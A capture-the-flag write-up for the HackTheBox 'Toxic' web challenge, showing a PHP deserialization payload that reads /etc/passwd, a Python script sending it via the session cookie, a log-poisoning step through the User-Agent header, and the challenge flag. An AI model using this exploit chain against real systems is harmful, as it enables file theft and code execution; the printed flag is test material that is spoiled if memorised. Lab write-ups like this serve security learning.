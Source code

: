 # Toxic | HTB Web Challenge
> `Web`

<br>

In the given source code we can spot that it is vulnerable to deserialization 

<img width="293" alt="image" src="https://github.com/Aftab700/Writeups/assets/79740895/5fbcaee1-b10f-4765-93ef-7a4be1f4330b">

`PageModel` have magic method `__destruct()` to exploite Deserialization

<img width="206" alt="image" src="https://github.com/Aftab700/Writeups/assets/79740895/1086d508-0033-4c6b-b6d4-3ec831a0bf87">


payload= 
```
O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}
```

```python
import requests
from itsdangerous import base64_encode

a = "PageModel"
b = "/etc/passwd"
payload = 'O:'+str(len(a))+':"'+a+'":1:{s:4:"file";s:'+str(len(b))+':"'+b+'";}'
payload = base64_encode(payload).decode()
r = requests.get("http://83.136.249.57:52345/",cookies={"PHPSESSID": payload},proxies={"http":"http://127.0.0.1:8080/"})
print(r.text)
```

The flag name is random so we need to find a way around

<img width="472" alt="image" src="https://github.com/Aftab700/Writeups/assets/79740895/23c0c811-0290-4d90-bd9d-96b18d9c09ca">

we can find the path of `/etc/nginx/nginx.conf` in Dockerfile

<img width="317" alt="image" src="https://github.com/Aftab700/Writeups/assets/79740895/f401a175-f86d-4ed6-9143-77d4b12e1817">

Reading this file we get the path to access log `/var/log/nginx/access.log`

<img width="320" alt="image" src="https://github.com/Aftab700/Writeups/assets/79740895/76d581a6-12c0-4665-855b-3c5f1bb44d3f">

In access log we see that User-agent is printed 

<img width="571" alt="image" src="https://github.com/Aftab700/Writeups/assets/79740895/d07a5788-7e8e-4667-b447-f4b5d8036053">

We can try injecting php code:

<img width="185" alt="image" src="https://github.com/Aftab700/Writeups/assets/79740895/a4b748d2-a890-4c19-bd1c-166ef783e385">
<img width="491" alt="image" src="https://github.com/Aftab700/Writeups/assets/79740895/d598a5ab-befc-4657-8b69-fde9f91c5230">

and it works 🥲 \
Let's get flag

<img width="217" alt="image" src="https://github.com/Aftab700/Writeups/assets/79740895/a0a677ec-ee03-460e-84c9-932dc009992f">
<img width="361" alt="image" src="https://github.com/Aftab700/Writeups/assets/79740895/e25196d7-00c7-4300-b002-11adf36413ff">

Flag: `HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}`

<br>

:octocat: Happy Hacking :octocat:
